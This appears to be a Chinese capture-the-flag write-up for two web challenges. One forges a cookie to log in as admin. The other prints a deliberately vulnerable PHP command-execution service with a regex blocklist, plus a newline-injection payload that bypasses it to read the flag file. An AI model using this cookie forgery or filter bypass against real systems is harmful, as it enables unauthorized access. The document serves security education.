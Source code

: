 ##[BSidesCF 2019]Kookie
根据提示,修改cookie
```
monster:admin
```
![image](https://user-images.githubusercontent.com/81904597/115979059-3793dc00-a5b6-11eb-810f-e0a50bd9f6f4.png)

得到回显 set-cookie:设置username
```
monster:admin;username:admin
```
![image](https://user-images.githubusercontent.com/81904597/115979070-44183480-a5b6-11eb-85e1-2aa1baea061b.png)
##[极客大挑战 2019]RCE ME
题目源码
```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
    $json = $_REQUEST['cmd'];

    if (!is_string($json)) {
        echo 'Hacking attempt detected<br/><br/>';
    } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
        echo 'Hacking attempt detected<br/><br/>';
    } else {
        echo 'Attempting to run command:<br/>';
        $cmd = json_decode($json, true)['cmd'];
        if ($cmd !== NULL) {
            system($cmd);
        } else {
            echo 'Invalid input';
        }
        echo '<br/><br/>';
    }
}

?>
```
```
?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"%0a}
```
https://blog.csdn.net/rfrder/article/details/110573955
